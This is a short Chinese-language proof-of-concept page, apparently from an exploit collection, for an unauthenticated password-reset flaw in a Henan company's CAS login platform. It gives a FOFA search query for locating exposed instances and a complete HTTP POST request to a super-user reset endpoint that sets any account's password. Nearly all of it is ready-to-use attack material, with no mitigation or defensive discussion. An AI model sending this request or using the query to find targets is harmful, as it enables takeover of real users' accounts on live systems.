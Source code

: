 ## 风速科技统一认证平台存在密码重置漏洞

河南省风速科技统一认证平台，存在未授权漏洞，攻击者可通过该接口重置任意密码。

## fofa

```yaml
body="/cas/themes/zbvc/js/jquery.min.js"
```

![image-20240711192731504](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407111927560.png)

## poc

```yaml
POST /cas/userCtl/resetPasswordBySuper HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Content-Type: application/json;charset=UTF-8
X-Requested-With: XMLHttpRequest
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 45
Connection: close

{"xgh":"test","newPass":"test666","email":""}
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407111927185.png)

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407111928817.png)